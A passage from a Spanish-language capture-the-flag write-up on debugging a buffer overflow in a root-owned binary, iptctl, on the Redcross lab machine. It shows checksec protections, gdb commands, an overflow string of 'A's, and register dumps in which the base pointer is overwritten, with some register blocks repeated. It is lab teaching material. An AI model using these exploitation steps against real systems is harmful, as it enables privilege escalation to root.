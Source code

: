 **Resultado:** confirmamos la existencia de un Buffer Over Flow, ahora vamos a tratar de ir depurándolo para ver si logramos una inyección de comandos desde este programa que como hemos visto se ejecuta con permisos de usuario root.

#### Debugging

**Acción:** vamos a confirmar que es explotable un Buffer Over Flow, ejecutamos `checksec`

```bash
CANARY    : disabled  # ✓ No hay protección contra stack overflow
FORTIFY   : disabled  # ✓ No hay checks adicionales en funciones peligrosas
NX        : ENABLED   # ✗ Stack no ejecutable (necesitamos ROP)
PIE       : disabled  # ✓ Direcciones fijas (no hay randomización del binario)
RELRO     : Partial   # ✓ GOT escribible (aunque no lo explotamos aquí)

Conclusión: El binario es vulnerable a Buffer Overflow con técnicas ROP.
```

**Explicación:** si `checksec` muestra NX enabled, Canary no detectado, PIE disabled y RELRO partial — entonces es factible un overflow clásico

**Acción:** vamos a iniciar la herramienta [gdb](../../../../Herramientas/GDB-PEDA/Instalación%20GDB-PEDA.md). Ejecutamos los siguientes comandos para iniciar el debugger, arrancar el programa con la opción interactiva y enviar la cadena corrompida desde aquí, así podremos tener una primera aproximación sobre que esta pasando y que es lo que queremos lograr.

```bash
gdb ./iptctl -q
r -i
```

```bash
Starting program: /home/<PATH>/Redcross/content/iptctl -i
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Entering interactive mode
Action(allow|restrict|show): allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
IP address: 1.1.1.1
```

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
RSI: 0x7fffffffd976 ("allowAAAAA1.1.1.1")
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBX: 0x7fffffffdc18 --> 0x7fffffffdfc8 ("/home/<PATH>/Redcross/content/iptctl")
RCX: 0x16 
RDX: 0x11 
RSI: 0x7fffffffd976 ("allowAAAAA1.1.1.1")
RDI: 0x7fffffffdaea ("allowAAAAA1.1.1.1")
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
RIP: 0x400b5e (<interactive+271>:	ret)
R8 : 0x1 
R9 : 0x4 
R10: 0x7ffff7dce260 --> 0x10001a000042a4 
R11: 0x7ffff7f1adb0 (<__strcpy_avx2>:	mov    rcx,rsi)
R12: 0x0 
```